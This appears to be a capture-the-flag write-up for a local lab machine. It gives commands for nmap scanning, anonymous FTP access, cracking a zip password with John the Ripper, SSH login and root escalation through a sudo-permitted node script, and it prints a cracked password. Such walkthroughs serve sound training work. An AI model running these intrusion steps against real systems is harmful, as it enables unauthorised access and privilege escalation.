 ![image](https://github.com/user-attachments/assets/adcd6845-d524-4280-afaf-d6457ee0434d)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21,22 172.17.0.2 -oN targeted
```
![Pasted image 20250124140335](https://github.com/user-attachments/assets/e31d89b5-00fc-40b9-8c6e-b1fe16f73aa4)

## **we have the user "anonymous" enabled by FTP so we will try to connect to it**
```bash
ftp 172.17.0.2
```
![Pasted image 20250124140805](https://github.com/user-attachments/assets/cf8641f0-0280-4a87-b3c1-7f24f8226942)

## **we will download this file and unzip it to see the content.**
```bash
get secretitopicaron.zip
```
![Pasted image 20250124142008](https://github.com/user-attachments/assets/8d5306b3-dd33-4b44-bd11-a18bbaf35a5c)

## **when decompressing, it asks for a password so we will do a brute force attack.**
```bash
zip2john secretitopicaron.zip > secret.hash
```
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt secret.hash
```
![Pasted image 20250124142714](https://github.com/user-attachments/assets/a93d40c1-bbad-4272-9cb6-d9fb8f507ddd)
![Pasted image 20250124142740](https://github.com/user-attachments/assets/d10ae2e0-eebb-4b2a-b333-5114fae2725c)

## **now unzip the file**
```bash
unzip secretitopicaron.zip
```
![Pasted image 20250124142933](https://github.com/user-attachments/assets/d77f3aee-7dfa-4451-82d5-f4ae7b1dc434)
laKontraseñAmasmalotaHdelbarrioH

## **now we will try to connect via SSH**
```bash
ssh mario172.17.0.2
```
![Pasted image 20250124143113](https://github.com/user-attachments/assets/c97b2b5e-ee7d-4351-a9c6-d61bdfc95c37)

## **we are already in, now we just need to elevate privileges.**
```bash
sudo -l
```
![Pasted image 20250124143814](https://github.com/user-attachments/assets/949d0298-a93d-405c-b935-f3613f755a06)
![Pasted image 20250124143838](https://github.com/user-attachments/assets/5716b271-641b-4ff9-9a8d-d9ee8df09533)

## **here is the file**

![Pasted image 20250124143955](https://github.com/user-attachments/assets/d6705f56-99f7-4113-99b1-6e3f06cb8df4)

## **we make a TTY treatment**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **paste inside the code we got from the gtobins web site**

![Pasted image 20250124145128](https://github.com/user-attachments/assets/925b16e9-806b-4dcb-9db5-d631facc808c)

## **now run the file from the application**
```bash
sudo /usr/bin/node /home/mario/script.js
```

## **We are ROOT**




